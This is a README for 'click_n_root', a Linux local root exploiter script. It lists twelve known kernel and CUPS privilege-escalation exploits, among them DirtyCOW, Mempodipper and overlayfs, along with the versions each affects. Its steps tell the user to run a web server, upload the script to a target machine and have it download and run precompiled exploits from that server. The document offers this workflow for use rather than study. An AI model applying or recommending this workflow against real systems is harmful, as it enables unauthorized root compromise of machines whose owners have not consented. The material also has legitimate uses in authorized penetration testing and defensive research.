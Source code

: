 # click_n_root - Linux Local Root Exploiter  
This is a small script to make the local exploitation process easier. It downloads the precompiled exploit for x86 and x64 architectures and can also automatic compile local on the target system

## Exploit-List:

1.  DirtyCOW AddUser 		(Ubuntu <4.4/<3.13; Debian <4.7.8)
2.  DirtyCOW Pokeball 		(Linux Kernel 2.6.22 < 3.9)
3.  Mempodipper 		(Linux 2.6.39<3.2.2 Gentoo/Debian)
4.  Full Nelson 		(Linux 2.6.31<2.6.37 RedHat/Debiab)
5.  Half Nelson 		(Linux Kernel 2.6.0<2.6.36.2)
6.  Clown NewUser		(Linux 3.0<3.3.5)
7.  fasync_helper 		(Linux Kernel <2.6.28)
8.  overlayfs 			(Linux 3.13.0<3.19)
9.  pipe.c root(kit?) 		(Kernel 2.6.x (32 Bit only!))
10. PERF_EVENTS 		(Kernel 2.6.32-3.8.10)
11. CAN BCM Exploit 		(Kernel <2.6.36)
12. Cups local Exploit 	(Cups <1.1.17)

## How to use it:

1. Download from git
2. Start easy Webserver with "python server.py"
  1. Now a Webserver is open on your local ip on port 80, serving all files given in the clickNroot folder.  
3. Upload the click_n_root.sh -Script to the target linux machine
4. Give executable rights to the click_n_root -Script (chmod 755 KlickAndRoot.sh)
5. Execute the script with given Server and Folder and choose an option/exploit
  1. E.g.: ./click_n_root 192.168.0.200/click_n_root

### Feel free to modify the script to your needs.

Cheers!
